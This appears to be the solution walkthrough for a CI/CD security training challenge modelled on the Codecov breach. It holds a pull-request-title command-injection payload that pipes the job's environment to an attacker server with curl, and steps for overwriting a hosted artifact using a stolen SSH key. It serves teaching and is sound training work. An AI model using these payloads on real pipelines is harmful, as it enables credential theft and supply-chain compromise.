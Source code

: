 [![CICD-SEC-8 Ungoverned Usage of 3rd Party Services](https://img.shields.io/badge/CICD--SEC--8-Ungoverned%20Usage%20of%203rd%20Party%20Services-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/ungoverned-usage-of-3rd-party-services/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)

[![CICD-SEC-9 Improper Artifact Integrity Validation](https://img.shields.io/badge/CICD--SEC--9-Improper%20Artifact%20Integrity%20Validation-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/improper-artifact-integrity-validation/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)

This challenge draws inspiration from the [Codecov incident](https://about.codecov.io/security-update/), in which a 3rd party artifact included in the pipeline is hijacked.

Codecov has a script used in customers’ CI pipelines. The script was hosted separately from its open-sourced code. The script was modified directly where it’s stored (without changing the source code) with malicious code that stole credentials from pipeline jobs.

Pipelines that would have validated the script’s hash against the repository code, would have prevented a successful attack.

In the challenge, Reportcov is a public repository of a 3rd party used by other CI pipelines. It has its own pipeline (which you can’t view), creating an artifact stored remotely. You can execute command injection in the pipeline in order to run malicious code in the job, steal the private key of the server hosting the artifact, and then modify it to exfiltrate credentials from CI pipelines that use the artifact.



1. Fork the _Cov/reportcov_ repository and create an arbitrary change.
2. Create a pull request with the following command as its title:

    ```shell
    `env | curl -H "Content-Type: application/json" -X POST -d "$(</dev/stdin)" <YOUR SERVER>`
    ```
    The injection is possible since the following line treats the title as a bash variable and as such it can evaluate command substitution inside.
    
    `sh "echo Pull Request ${title} created in the reportcov repository"`

    GitHub published an [interesting article](https://securitylab.github.com/research/github-actions-preventing-pwn-requests/) about command injection in CI pipelines.

3. Use the private key to upload a malicious _reportcov.sh_ script: 

    ```shell
    echo "${FLAG}" | base64 > reportcov.sh
    chmod 400 key
    scp -P 2222 -i key reportcov.sh root@localhost:/var/www/localhost/htdocs
    ```


4. Run the dormouse pipeline.
5. Access the console output of the executed job to get the secret.